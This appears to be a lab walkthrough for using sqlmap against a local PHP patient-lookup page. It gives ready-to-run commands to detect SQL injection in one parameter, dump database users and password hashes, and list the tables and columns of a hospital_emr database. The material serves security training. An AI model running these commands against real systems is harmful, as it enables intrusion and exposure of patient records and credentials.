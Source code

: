
### Option B — clone latest from GitHub (recommended for newest features)

```bach
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
# run via: python3 sqlmap.py ...
```


## 2 — Safe discovery (non-destructive)

Start with a low-risk check to see if q is injectable (no dumping):

```bash
sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=John" --batch --level=1 --risk=1 --technique=BE --threads=2
```

* --level / --risk control intensity (begin low).
* --technique=BE limits checks to Boolean & Error types.
* --batch auto-answers prompts for automation.

**Expected:** sqlmap reports whether it found an injectable parameter and which technique succeeded.

## 3 — Force probing the q parameter

Let sqlmap probe the q parameter explicitly:
```bash
sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" --batch --level=2 --risk=1
```
* Use q=* to instruct sqlmap to test that parameter.

## 4 — Enumerate databases / users

Once injection is confirmed, enumerate DBs and users:

* sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" --dbs --batch
* sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" --current-db --batch
* sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" --users --passwords --batch

**Goal:** confirm hospital_emr exists and inspect DB users (lab only).

## 5 — List tables in hospital_emr

```bash
sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" -D hospital_emr --tables --batch
```
You should see tables such as patients, billing, appointments, etc.

## 6 — List columns for a table (example: patients)

```bash
sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" -D hospital_emr -T patients --columns --batch
```
This reveals column names and types (e.g., id, medical_record_number, first_name, last_name, dob, email).
